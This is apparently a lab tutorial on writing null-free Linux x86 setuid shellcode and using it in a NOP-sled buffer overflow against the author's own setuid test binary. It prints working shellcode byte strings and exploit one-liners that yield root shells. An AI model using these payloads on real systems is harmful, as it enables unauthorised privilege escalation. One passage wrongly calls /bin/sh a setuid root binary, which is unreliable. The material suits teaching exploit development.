

All the content on this website, including this post, is intended for educational use only. The techniques and processes presented should only be used against systems you own or have explicit written permission to target. Otherwise, you are breaking the Law - be smart. The author/s of this website will not accept any liability for misuse of this content.

In particular, we will look at writing setuid() shell spawning Shellcode. Before we proceed we need to understand what a setuid executable is.
Setuid Binaries
Setuid stands for ‘set user ID’ and is an access right that can be applied to executable programs. When executed a setuid binary will run with the permissions of the executable's owner. For instance, if the executable is owned by root and the user debug runs the program the program will run with the privileges of root. Hence if we can exploit a setuid program we will inherit the permissions of the owner of the program.
Several legitimate programs run with setuid root privileges. For example, /bin/su allows you to log in as another user via a Shell. To check that the password you entered is correct the program must be able to read /etc/shadow which contains hashes of all user's passwords. To do this /bin/su must have root privileges. However, every user must be able to run /bin/sh with root privileges. The solution is to make /bin/sh a setuid binary owned by root - when it is run it will run with root privileges.
It is important to note that setuid programs do not tend to run all their commands with root privileges. Only commands that need to run with root privileges are run with root privileges - all other commands are run with the users' privileges. In C we can use the setuid() function which will set the user ID (uid) of the process. This can be used to elevate and restore privileges within a setuid binary.
Step 1: Writing the Shellcode in C
Let's look at a C program that will attempt to set the uid and gid (group ID) to root (root has a uid and gid of zero) and then spawn a Shell using the system() function.
(c_shell.c)
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
If we compile this code it will spawn a Shell, but not with root privileges.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ gcc -o c_shell c_shell.c debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ ./c_shell debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ exit exit debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
This spawns a shell as the user debug - our current user. This is because the setuid(0) function (and the setgid(0)) function failed to set the uid (gid) of the process to root. This is because we have not set the setuid bit to the c_shell program. Let's change the owner of the binary to root set the setuid bit and see if it works this time.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chown root:root c_shell debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chmod +s c_shell debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ ./c_shell root@lbuntu:~/Documents/shellcode/chapter3/setuid_shell# id uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare),1000(debug) root@lbuntu:~/Documents/shellcode/chapter3/setuid_shell# exit exit debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
This time we have a root shell - the setuid() function worked as expected. The program has the necessary permission to change the uid (gid) of the process.
Step 2: Debugging the Shellcode Program
Let's see what system calls the program makes using gdb.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ gdb -q ./c_shell Reading symbols from ./c_shell...(no debugging symbols found)...done. gdb-peda$ disas main Dump of assembler code for function main: 0x0000057d <+0>: lea ecx,[esp+0x4] 0x00000581 <+4>: and esp,0xfffffff0 0x00000584 <+7>: push DWORD PTR [ecx-0x4] 0x00000587 <+10>: push ebp 0x00000588 <+11>: mov ebp,esp 0x0000058a <+13>: push ebx 0x0000058b <+14>: push ecx 0x0000058c <+15>: call 0x480 <__x86.get_pc_thunk.bx> 0x00000591 <+20>: add ebx,0x1a3f 0x00000597 <+26>: sub esp,0xc 0x0000059a <+29>: push 0x0 0x0000059c <+31>: call 0x420 <setuid@plt> 0x000005a1 <+36>: add esp,0x10 0x000005a4 <+39>: sub esp,0xc 0x000005a7 <+42>: push 0x0 0x000005a9 <+44>: call 0x3f0 <setgid@plt> 0x000005ae <+49>: add esp,0x10 0x000005b1 <+52>: sub esp,0xc 0x000005b4 <+55>: lea eax,[ebx-0x1970] 0x000005ba <+61>: push eax 0x000005bb <+62>: call 0x400 <system@plt> 0x000005c0 <+67>: add esp,0x10 0x000005c3 <+70>: mov eax,0x0 0x000005c8 <+75>: lea esp,[ebp-0x8] 0x000005cb <+78>: pop ecx 0x000005cc <+79>: pop ebx 0x000005cd <+80>: pop ebp 0x000005ce <+81>: lea esp,[ecx-0x4] 0x000005d1 <+84>: ret End of assembler dump. gdb-peda$
We can see that the functions setuid, setgid and system are being called which is to be expected. Let's catch the syscalls associated with these functions, namely setuid, setgid and execve (for system).
gdb-peda$ catch syscall setuid Catchpoint 1 (syscall 'setuid' [23]) gdb-peda$ catch syscall setgid Catchpoint 2 (syscall 'setgid' [46]) gdb-peda$ catch syscall execve Catchpoint 3 (syscall 'execve' [11]) gdb-peda$ r Starting program: /home/debug/Documents/shellcode/chapter3/setuid_shell/c_shell ... Thread 2.1 "c_shell" hit Catchpoint 3 (call to syscall execve), 0xb7fd7bb5 in __kernel_vsyscall () gdb-peda$ c
The syscall to execve is made but we don't see the setuid or setgid syscalls. gdb doesn't run programs as setuid binaries (unless gdb is running as root) so these syscalls fail. We can see the using strace.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ strace ./c_shell
execve("./c_shell", ["./c_shell"], 0xbffff650 /* 22 vars */) = 0
access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
brk(NULL) = 0x403000
fcntl64(0, F_GETFD) = 0
fcntl64(1, F_GETFD) = 0
fcntl64(2, F_GETFD) = 0
access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fd2000
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=80054, ...}) = 0
mmap2(NULL, 80054, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb7fbe000
close(3) = 0
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0 \220\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1942840, ...}) = 0
mmap2(NULL, 1948188, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7de2000
mprotect(0xb7fb7000, 4096, PROT_NONE) = 0
mmap2(0xb7fb8000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1d5000) = 0xb7fb8000
mmap2(0xb7fbb000, 10780, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb7fbb000
close(3) = 0
set_thread_area({entry_number=-1, base_addr=0xb7fd30c0, limit=0x0fffff, seg_32bit=1, contents=0, read_exec_only=0, limit_in_pages=1, seg_not_present=0, useable=1}) = 0 (entry_number=6)
mprotect(0xb7fb8000, 8192, PROT_READ) = 0
mprotect(0x401000, 4096, PROT_READ) = 0
mprotect(0xb7ffe000, 4096, PROT_READ) = 0
munmap(0xb7fbe000, 80054) = 0
setuid32(0) = -1 EPERM (Operation not permitted)
setgid32(0) = -1 EPERM (Operation not permitted)
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xbffff43c) = 2717
waitpid(2717, debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ exit
exit
[{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0) = 2717
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=2717, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
exit_group(0) = ?
+++ exited with 0 +++
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell
Note that like gdb, strace ignores the setuid bit and runs he program with the users' privileges, which is why the setuid and setgid calls fail with operation not permitted.
We know that we need to write a program that makes these syscalls with the appropriate arguements written into registers.
Step 3: Understand How the Assembly Code works
We can write an assembly program that does the same thing as our C program.(shellcode.asm) section .data string db "/bin/shABBBBCCCC" ;string used as an argument for execve section .text global _start _start: ; setuid syscall mov eax, 0x17 ;Arg0: put the value of the syscall into eax mov ebx, 0 ;Arg1: put the uid of root into ebx as an argument int 0x80 ;call the kernel and run the syscall ; setgid syscall mov eax, 0x2e ;Arg0: put the value of the syscall into eax mov ebx, 0 ;Arg1: put the gid of root into ebx as an argument int 0x80 ;call the kernel and run the syscall ;execve syscall mov eax, 0 ;move zero into eax mov ebx, string ;Arg1:move the address of string into ebx mov [ebx + 7], al ;put the null bytes in al (first byte of eax) into 8th byte of string (where the A is). This will terminate /bin/sh mov [ebx + 8], ebx ;put the address of string, stored in ebx, in place of the BBBB's in string mov [ebx + 12], eax ;move the null bytes stored in eax over CCCC in string. This will terminate the preceding address mov eax, 11 ;Arg0: put the value of the syscall into eax lea ecx, [ebx + 8] ;Arg2: Load address where BBBB was into ecx. This is a pointer to the address pointing to /bin/sh. lea edx, [ebx + 12] ;Arg3: Load 0x00000000 into edx which replaced CCCC in string int 0x80 ;call the kernel and run the syscall
Let's go through this assembly code and analyse each part.
section .data string db "/bin/shABBBBCCCC" ;string used as an argument for execve
This defines the data section of the program. We define a variable called string which we use when calling execve.
section .text global _start _start:
Defines the .text section of the program. Sets the entry point of the program.
; setuid syscall mov eax, 0x17 ;Arg0: put the value of the syscall into eax mov ebx, 0 ;Arg1: put the uid of root into ebx as an argument int 0x80 ;call the kernel and run the syscall
Runs the setuid syscall. Firstly we load the value of the syscall into eax, in this case, 0x17 (23). We then move the argument of the syscall into ebx; namely the uid of root which is zero. We then call the kernel to run the syscall.
; setgid syscall mov eax, 0x2e ;Arg0: put the value of the syscall into eax mov ebx, 0 ;Arg1: put the gid of root into ebx as an argument int 0x80 ;call the kernel and run the syscall
Runs the setgid syscall. Almost identical to the previous syscall except we load 0x2e (the value of the setgid syscall) into eax instead of 0x17.
;execve syscall mov eax, 0 ;move zero into eax mov ebx, string ;Arg1:move the address of string into ebx mov [ebx + 7], al ;put the null byte in al (first byte of eax) into the 8th byte of string (where the A is). This will terminate /bin/sh mov [ebx + 8], ebx ;put the address of string, stored in ebx, in place of the BBBB's. This is argv[0] mov [ebx + 12], eax ;move the null bytes stored in eax over CCCC in string. This is argv[1] mov eax, 11 ;Arg0: put the value of the syscall into eax lea ecx, [ebx + 8] ;Arg2: Load address where BBBB was into ecx. This is a pointer to the address pointing to /bin/sh. lea edx, [ebx + 12] ;Arg3: Load 0x00000000 into edx which replaced CCCC in string int 0x80 ;call the kernel and run the syscall
There is a bit more going on here. Essentially we are overwriting parts of the string variable and loading addresses to parts of the string into registers as arguments to the syscalls.
Firstly, lets have a look at the man page for execve.
EXECVE(2) Linux Programmer's Manual EXECVE(2)
NAME
execve - execute program
SYNOPSIS
#include <unistd.h>
int execve(const char *filename, char *const argv[],
char *const envp[]);
DESCRIPTION
execve() executes the program pointed to by filename. filename must
be either a binary executable, or a script starting with a line of the
form:
#! interpreter [optional-arg]
For details of the latter case, see "Interpreter scripts" below.
argv is an array of argument strings passed to the new program. By
convention, the first of these strings (i.e., argv[0]) should contain
the filename associated with the file being executed. envp is an
array of strings, conventionally of the form key=value, which are
passed as environment to the new program. The argv and envp arrays
must each include a null pointer at the end of the array.
As you can see we must pass three arguments the syscall. The first should be a pointer to the filename we want to execute, in this case /bin/sh. This filename should be null terminated otherwise the kernel will read past the file name and our filename will be incorrect.
The second argument is argv[] which should be “an array of arguments strings passed to the program”. The first string in the array should be the filename we wish to execute, so in this case /bin/sh. argv[] should contain a null pointer at the end of the array.
The third arguement is envp[] which should be an array of environment variables passed to the program. We are not interested in this variable. However the envp[] array should contain a null pointer at the end of the array. Therefore, we should pass a null pointer for this variable.
In our Shellcode, we will null terminate the /bin/sh string and write the argv[] array over the string variable declared in the .data section. We will then pass pointers to /bin/sh and to argv[] via the ebx and ecx registers respectively to the syscall. We also load 0x0b into eax (the value of the syscall) and a null pointer in edx for an empty envp[] array.
Hence, before we make the syscall, our registers should look like this:
execve(pointer to /bin/sh, [address of pointer to /bin/sh, 0], 0) eax: 11 (value of the execve syscall) ebx: pointer to /bin/sh ecx: pointer to the argv[] array. edx: null (pointer to envp[] array with no entries)
The following goes through the section and explains how we are overwriting the string variable to create the argv[] array and null terminate the /bin/sh string.
00 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15
/ b i n / s h A B B B B C C C C
mov eax, 0
mov ebx, string
mov [ebx + 7], al
00 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15
/ b i n / s h 0 B B B B C C C C
We've replaced A with 0x00 terminating the /bin/sh string.
mov [ebx + 8], ebx
00 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15
/ b i n / s h 0 <addr of C C C C
string>
We overwrite the BBBB characters with the address of string (which is stored in ebx).
mov [ebx + 12], eax
|---------*-----------| |---------**----------|
00 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15
/ b i n / s h 0 <addr of 0 0 0 0
string>
We overwrite the CCCC characters with the null bytes stored in eax.
* null termianted /bin/sh string
** argv[] array
We we have rewritten the string variable to "bin/sh0<addr of string>0000". We then load the arguments for the syscall into registers from this string. We have already written one argument into ebx, namely the pointer to '/bin/sh'. We move 0x0b into the eax, the value of the syscall. We load the effective address of the argv[] array into ecx using ebx as a relative address (the argv[] array starts 8 bytes ahead of the address held in ebx). Similarly, we load the effective address of 0x00000000 into edx. We have all the arguments in place and are then ready to make the final syscall.
Let's compile the program, make it setuid root and see if it works.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ nasm -f elf shellcode.asm debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ ld shellcode.o -o a1.out debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chown root a1.out [sudo] password for debug: debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chmod +s a1.out debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ ./a1.out # id uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare),1000(debug) #
Indeed we get a root shell. The program works. However, we are still a long way from injectable Shellcode. We are relying on data held in the .data section of the program. Typically we will not be able (and we certainly would like to avoid) writing to the .data section of the program. We will get around this by writing the /bin/sh argument to the Stack and referencing it from there rather than the .data section of the program. We also need to remove all null bytes from the program.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ objdump -d a1.out a1.out: file format elf32-i386 Disassembly of section .text: 08048080 <_start>: 8048080: b8 17 00 00 00 mov $0x17,%eax 8048085: bb 00 00 00 00 mov $0x0,%ebx 804808a: cd 80 int $0x80 804808c: b8 2e 00 00 00 mov $0x2e,%eax 8048091: bb 00 00 00 00 mov $0x0,%ebx 8048096: cd 80 int $0x80 8048098: b8 00 00 00 00 mov $0x0,%eax 804809d: bb b8 90 04 08 mov $0x80490b8,%ebx 80480a2: 88 43 07 mov %al,0x7(%ebx) 80480a5: 89 5b 08 mov %ebx,0x8(%ebx) 80480a8: 89 43 0c mov %eax,0xc(%ebx) 80480ab: b8 0b 00 00 00 mov $0xb,%eax 80480b0: 8d 4b 08 lea 0x8(%ebx),%ecx 80480b3: 8d 53 0c lea 0xc(%ebx),%edx 80480b6: cd 80 int $0x80 debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
Step 4: Cleaning Up our Shellcode
Let's firstly remove all null bytes from the first two syscalls.
;setuid(0) push 0x17 ;push the value of 0x17 onto the Stack pop eax ;Arg1: push the value at the top of the Stack, 0x17, into eax xor ebx, ebx ;Arg2: set ebx to zero int 0x80 ;call the kernel
We are using a new technique here - we push 0x17 onto the Stack and then pop this value into eax. This loads 0x17 into eax with fewer opcodes than xor eax,eax ; mov al, 0x17 for example. This is a good technique to load values into registers when we need to zero them first (i.e. we only want to write to the first byte and we don't know what else is in the register).
We then set ebx to zero by xoring ebx with itself. We then call the kernel which hasn't changed.
;setgid(0) mov al, 0x2e ;Arg1: move 0x2e into eax - value of the syscall. We don't use the push, pop method as we know the first three bytes of eax are null int 0x80 ;call the kernel. Arg2 already set to zero from above
We set eax to 0x2e using the mov al method. We don't use the push, pop method as we know the first three bytes of eax are null from the previous syscall. We then call the kernel. Note that we do not need to set ebx to zero as we did before - it already is zero.
;execve syscall mov al, 0x0b ;Arg1: move 11 into eax - value of the syscall push ebx ;push four null bytes to the Stack to terminate the following string push 0x68732f2f ;push //sh onto the Stack push 0x6e69622f ;push /bin onto the Stack (to complete the string /bin//sh mov ebx, esp ;Arg1: move the address of /bin//sh into ebx. esp points to this address xor edx, edx ;Arg3: set edx to zero push edx ;push four null bytes to the Stack to terminate the following address push ebx ;push the address stored in ebx (which points to /bin//sh) onto the Stack mov ecx, esp ;Arg2: move the address of the pointer to /bin//sh into ecx. int 0x80 ;call the kernel
This section of code pushes the string /bin//sh onto the Stack and loads arguments into registers before the execve syscall. But why are we loading /bin//sh onto the Stack instead of /bin/sh?
In 32bit Linux systems we push values onto the Stack in units of 4 bytes (note it is possible, but not common, to pop or push 16 bits as well). That means that if value if 3 bytes long it will still take up 4 bytes worth of space on the Stack. Space not used will be null bytes. Our problem is that the string “/bin/sh" is 7 bytes long. It has to be written to the Stack in units of 4 so we will have to write to the Stack twice. The first write will be 4 bytes long and the second write will be 3 bytes long. However this will introduce a null byte in the string, “/bin0/sh” which will terminate our string early and the wrong arguments will be passed to execve.
However, we have a trick up our sleeve. In Linux when issuing commands like /bin/sh the OS will accept multiple slashes in place of one.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ /bin/sh $ exit debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ /bin//sh $ exit debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ /bin////////sh $ exit debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
Hence the command /bin/sh has the same effect as /bin//sh (or even /bin////////sh). Hence we can write exactly 8 bytes to the Stack (in units of 4 bytes) using the string /bin//sh. A neat trick.
In the assembly code, we first move 0x0b into eax (using the al register), the value of the syscall. We then push 4 null bytes stored in ebx onto the Stack to terminate the following string written onto the Stack. We then write //sh and /bin onto the Stack in hexadecimal (using little-endian format). Since the Stack is a last in first out data type we have to write the string backwards in units of 4 bytes (i.e //sh first then /bin). The program moves the address of /bin//sh into ebx (from esp). We set edx to zero and push 4 null bytes into the Stack to terminate the argv[] array. Push the address in ebx (which points to /bin//sh) on the Stack. Then move the address of the pointer to /bin//sh into ecx (this is a pointer to the argv array) and call the kernel. This will spawn a shell. Since we have set the uid and gid of the program to root (zero) we will have a root shell (providing the binary is setuid).
Compiling the assembly and setting the setuid bit (and ensuring the owner is root) we see that we get a root shell.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ nasm -f elf shellcode2.asm debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo ld shellcode2.o -o a1.out [sudo] password for debug: debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chmod +s a1.out debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ ./a1.out # id uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare),1000(debug) # exit debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
So the Shellcode works! Let's check that the Shellcode does not contain any null bytes.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ objdump -d a1.out a1.out: file format elf32-i386 Disassembly of section .text: 08048060 <_start>: 8048060: 6a 17 push $0x17 8048062: 58 pop %eax 8048063: 31 db xor %ebx,%ebx 8048065: cd 80 int $0x80 8048067: b0 2e mov $0x2e,%al 8048069: cd 80 int $0x80 804806b: b0 0b mov $0xb,%al 804806d: 53 push %ebx 804806e: 68 2f 2f 73 68 push $0x68732f2f 8048073: 68 2f 62 69 6e push $0x6e69622f 8048078: 89 e3 mov %esp,%ebx 804807a: 31 d2 xor %edx,%edx 804807c: 52 push %edx 804807d: 53 push %ebx 804807e: 89 e1 mov %esp,%ecx 8048080: cd 80 int $0x80 debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
Indeed there are no null bytes in our Shellcode. All that remains is to extract the opcodes and we have our Shellcode.
One thing to note is that our Shellcode will fail if the binary we are attacking does not have the setuid bit set. Indeed if we remove the setuid bit from a1.out we will get a segmentation fault. This is because we have not programmed any error handling if the setuid() syscall fails. After all, we do not have the correct privileges. You need to bear this in mind if the binary you are attacking is not setuid.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chmod -s a1.out debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ ./a1.out Segmentation fault (core dumped) debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
You could still get a shell from the vulnerable program by excluding the setuid() and setgid() calls from the Shellcode.
Step 5: Extract Opcodes
There is a great one-line script proposed by invictus85 on https://reverseengineering.stackexchange.com/questions/15925/how-can-i-export-only-the-opcodes-from-objdump-or-any-other-program to extract opcodes quickly from objdump. Our Shellcode will be ready for use immediately.
objdump -d ./your_program|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ objdump -d ./a1.out|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' "\x6a\x17\x58\x31\xdb\xcd\x80\xb0\x2e\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80" debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
Let's use our Shellcode to exploit the same program as in the last post. You can find details of the exploit development process at https://bluehood.github.io/exploitdev/2-3-entry.html and https://bluehood.github.io/exploitdev/2-4-entry.html. We firstly set the setuid bit on the program and then modify our exploit to include our Shellcode and correct the offsets.
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ cp ~/Documents/exploitdev/chapter2/stack/simple_overflow ./simple_overflow debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chown root:root ./simple_overflow debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ sudo chmod +s ./simple_overflow debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ python3 Python 3.6.9 (default, Jul 17 2020, 12:50:27) [GCC 8.4.0] on linux Type "help", "copyright", "credits" or "license" for more information. >>> shellcode="\x6a\x17\x58\x31\xdb\xcd\x80\xb0\x2e\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80" >>> print(len(shellcode)) 34 >>>
(exploit) $(perl -e 'print "\x90"x138 . "\x6a\x17\x58\x31\xdb\xcd\x80\xb0\x2e\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80" . “A”x4 "\x30\xfc\xff\xbf"x10')
The shellcode is 34 bytes in length. We adjust the NOP Sled and A characters accordingly. Launching the exploit gives us a root shell!
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ env -i $(pwd)/simple_overflow $(perl -e 'print "\x90"x138 . "\x6a\x17\x58\x31\xdb\xcd\x80\xb0\x2e\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80" . "A"x4 . "\x30\xfc\xff\xbf"x10') Hello ������������������������������������������������������������������������������������������������������������������������������������������jX1�̀�.̀� Sh//shh/bin��1�RS��̀AAAA0���0���0���0���0���0���0���0���0���0��� # id uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare),1000(debug) #
A Note about Length
When writing Shellcode it is of primary importance that the length of the Shellcode is kept as short as possible. This makes the Shellcode as portable as possible and maximises the number of programs we can exploit since we will be able to fit the Shellcode into smaller buffers. Whilst we included the setgid() syscall in out Shellcode it is not necessary to include this syscall to obtain a root shell. Indeed we can remove this syscall from the Shellcode and the exploit will still work.
(shellcode) \x6a\x17\x58\x31\xdb\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80
Notice there are only two syscalls now (only two int 0x80 or \xcd\x80 commands). Let's modify the offsets in our exploit and try this Shellcode of length 30.
(exploit) $(perl -e 'print "\x90"x138 . "\x6a\x17\x58\x31\xdb\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80" . "A"x8 . "\x30\xfc\xff\xbf"x10')
debug@lbuntu:~/Documents/shellcode/chapter3/setuid_shell$ env -i $(pwd)/simple_overflow $(perl -e 'print "\x90"x138 . "\x6a\x17\x58\x31\xdb\xcd\x80\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80" . "A"x8 . "\x30\xfc\xff\xbf"x10') Hello ������������������������������������������������������������������������������������������������������������������������������������������jX1�̀� Sh//shh/bin��1�RS��̀AAAAAAAA0���0���0���0���0���0���0���0���0���0��� # id uid=0(root) gid=1000(debug) groups=1000(debug),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),122(sambashare) #
The exploit still works and we have shaved off a further 4 bytes. Notice that the gid of the shell has not changed to root. This is because we did not run the setgid() syscall to change to gid of the process.
Those who are interested should not that this setuid Shellcode can be reduced further to 27 bytes for Linux x86. Can you do it?
References:
The Shellcoder's Handbook, Discovering and Exploiting Security Holes
Hacking, The Art of Exploitation, Jon Erikson